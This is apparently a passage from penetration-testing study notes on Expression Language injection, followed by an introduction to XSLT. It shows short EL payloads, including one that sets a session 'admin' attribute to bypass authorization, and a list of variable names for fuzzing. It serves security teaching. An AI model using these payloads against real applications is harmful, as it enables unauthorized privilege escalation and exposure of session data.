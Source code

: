 We can retrieve with .toString like that:
```js
${sessionScope.toString()}
```

Sample authorization bypass might be similar to the below statement:
```js
${pageContext.request.getSession().setAttribute("admin",true)}
```

With burp intruder we can find variables with wordlists (like the follow):
```
${user}
${password}
${employee.FirstName}
```

Moreover:
```
- https://techblog.mediaservice.net/2016/10/exploiting-ognl-injection/
- https://sethjackson.github.io/2018/04/16/el-injection/
- https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts/
```





lets compile and exploit a simple example of the Spring Expression Language injection


## XSLT Purpose
eXtensible Stylesheet Language Transformations is a language used in XML document transformations

> aka as XSL

The output of the transformation can be anything, but often is another xml or html-type file. 

- XSL uses its built-in functions and XPATH language to select and change parts of an XML document

### XSLT Example

![Alt text](/assets/images/posts/ewptx/63.png){: .align-center}
